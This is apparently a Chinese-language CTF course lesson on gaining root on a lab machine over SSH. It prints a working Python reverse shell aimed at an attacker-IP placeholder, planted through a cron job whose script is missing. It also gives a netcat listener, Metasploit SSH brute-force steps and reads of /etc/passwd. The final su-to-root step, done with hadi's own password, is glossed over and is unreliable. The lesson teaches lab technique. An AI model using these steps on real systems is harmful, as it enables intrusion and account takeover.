# CTF夺旗：4.5：SSH服务测试（获取root权限）🔐

在本节课中，我们将学习如何通过SSH服务渗透靶机，并最终获取root权限以读取flag文件。我们将从信息收集开始，探索权限提升的多种途径，包括利用定时任务和暴力破解，最终完成夺旗目标。

---


## 信息收集与初步探索



上一节我们使用martin用户登录了服务器。本节中，我们来看看如何收集系统信息，为后续的权限提升做准备。



首先，我们确认当前用户martin并非root权限用户。使用`id`命令可以查看当前用户的权限和所属用户组。



```bash
id
```



为了全面了解系统，我们可以执行以下几条命令来查看配置信息。



以下是查看系统用户和用户组的命令：

*   `cat /etc/passwd`：查看所有用户的列表。
*   `cat /etc/group`：查看所有用户组的列表。

我们还可以使用`find`命令查找属于特定用户的文件。

```bash
find / -user <用户名>
```

此外，临时文件目录`/tmp`也值得关注，这里可能存放着有用的文件或脚本。我们可以切换到该目录进行查看。

```bash
cd /tmp
ls -la
```





在检查完这些信息后，如果没有发现明显的可利用点，我们就需要进行更深入的挖掘。

---

## 深入挖掘：定时任务（Cron Jobs）⏰

在CTF比赛中，一个需要特别关注的位置是`/etc/crontab`文件。这个文件用于设定系统定期执行的任务，通常需要root权限才能编辑。

通过查看这个文件，我们可以了解是否有用户设定了定时任务。如果发现某个任务指向一个不存在的执行文件，我们就可能利用这个弱点。具体方法是：创建该文件并写入反弹shell代码，当定时任务执行时，就能让靶机连接回我们的攻击机，从而获得权限。

下面我们来查看`/etc/crontab`文件的内容。

```bash
cat /etc/crontab
```

在文件内容中，我们注意到有一条root用户的定时任务，以及一条jim用户的python任务。该任务设定每5分钟执行一次`/tmp/security.py`文件。然而，我们在`/tmp`目录下并未发现这个文件。

这为我们提供了一个机会：我们可以创建一个名为`security.py`的文件，并写入反弹shell代码。

---

## 利用漏洞：创建反弹Shell🐚

反弹shell是一种让靶机主动连接攻击机并打开一个命令行会话的技术。以下是编写反弹shell Python脚本的步骤。

首先，我们需要在攻击机上使用`netcat`监听一个端口。

```bash
nc -lvp 4445
```

接下来，在靶机的`/tmp`目录下创建或编辑`security.py`文件，写入以下Python代码。请将`<攻击机IP>`和`<监听端口>`替换为实际值。

```python
#!/usr/bin/env python3
import socket, subprocess, os
s=socket.socket()
s.connect(("<攻击机IP>", <监听端口>))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/sh","-i"])
```

然后，赋予该脚本执行权限。

```bash
chmod +x /tmp/security.py
```

等待定时任务执行后，攻击机的`netcat`监听端就会收到一个来自靶机jim用户的shell连接。



---



## 权限提升尝试与受阻

成功获取jim用户的shell后，我们首先确认当前权限。

```bash
whoami
id
```

我们发现jim用户同样不是root，并且我们不知道其密码，无法使用`su`命令直接提权。此时，我们需要寻找其他方法。

回顾之前收集的信息，系统中还有一个用户名为`hadi`。我们无法通过已知信息登录该用户，因此需要考虑对SSH服务进行暴力破解。



---



## 暴力破解SSH密码🔑

在万不得已时，我们可以尝试暴力破解剩余用户的密码。这里我们使用`metasploit`框架中的SSH登录扫描模块。

首先，我们需要准备一个密码字典。可以使用`CUPP`等工具生成个性化字典。在攻击机上操作如下：

```bash
git clone https://github.com/Mebus/cupp.git
cd cupp
python3 cupp.py -i
```
根据交互提示输入相关信息（如目标用户名`hadi`）来生成字典。

字典准备完毕后，启动`metasploit`并配置攻击模块。

以下是使用metasploit进行SSH暴力破解的步骤：

1.  启动msfconsole：`msfconsole`
2.  使用ssh登录模块：`use auxiliary/scanner/ssh/ssh_login`
3.  设置目标IP：`set RHOSTS <靶机IP>`
4.  设置用户名：`set USERNAME hadi`
5.  设置密码字典路径：`set PASS_FILE <字典文件路径>`
6.  设置线程数（可选）：`set THREADS 5`
7.  运行模块：`run`

经过一段时间的破解，我们成功得到了hadi用户的密码：`hadi123`。

---

## 最终提权与获取Flag🏁

使用破解得到的凭据，我们可以通过SSH登录或以其他方式获取hadi用户的shell。获得shell后，我们首先优化shell交互体验。

```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```

现在，我们尝试使用`su`命令提升到root权限。因为我们已拥有hadi用户的密码，而该用户可能被配置了sudo权限或知道root密码。

```bash
su - root
```
输入密码`hadi123`后，我们成功获得了root权限。使用`whoami`和`id`命令确认。



```bash
whoami
id
```



成为root后，最后一步就是寻找并读取flag文件。在CTF中，flag通常位于根目录或root用户的家目录下。

```bash
find / -name "*flag*" 2>/dev/null
cat /flag.txt
```

成功读取flag文件内容，标志着我们完成了对整个靶机的渗透，并最终夺旗。



---

## 课程总结



在本节课中，我们一起学习了针对SSH服务的完整渗透流程。

首先，我们进行了系统信息收集，查看了用户、用户组和敏感目录。接着，我们探索了利用`/etc/crontab`定时任务文件进行权限提升的方法，通过创建缺失的任务执行文件并植入反弹shell代码，获得了初始立足点。

在获得的用户权限不足时，我们转向对SSH服务进行暴力破解，使用`metasploit`框架成功破解了`hadi`用户的密码。最后，利用该用户权限成功提权至root，并最终找到并读取了flag文件。



关键要点在于：在CTF比赛中，要特别注意`/tmp`临时目录和`/etc/crontab`定时任务文件，它们常常是考点。同时，当其他路径受阻时，对服务的暴力破解是获取访问权限的有效后备手段。